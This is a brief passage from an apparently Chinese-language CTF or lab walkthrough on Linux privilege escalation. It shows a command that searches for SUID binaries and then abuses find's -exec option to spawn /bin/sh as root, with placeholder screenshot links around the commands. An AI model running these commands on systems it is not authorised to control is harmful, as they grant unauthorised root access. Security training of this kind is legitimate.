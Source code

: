 

![image-20250308201015697](./assets/image-20250308201015697.png)



## 提权



### suid位查找

```
find /-perm -u=s -type f 2>/dev/null
```

![image-20250308201024726](./assets/image-20250308201024726.png)



### 尝试使用find提权

执行

```
find . -exec /bin/sh \;
```

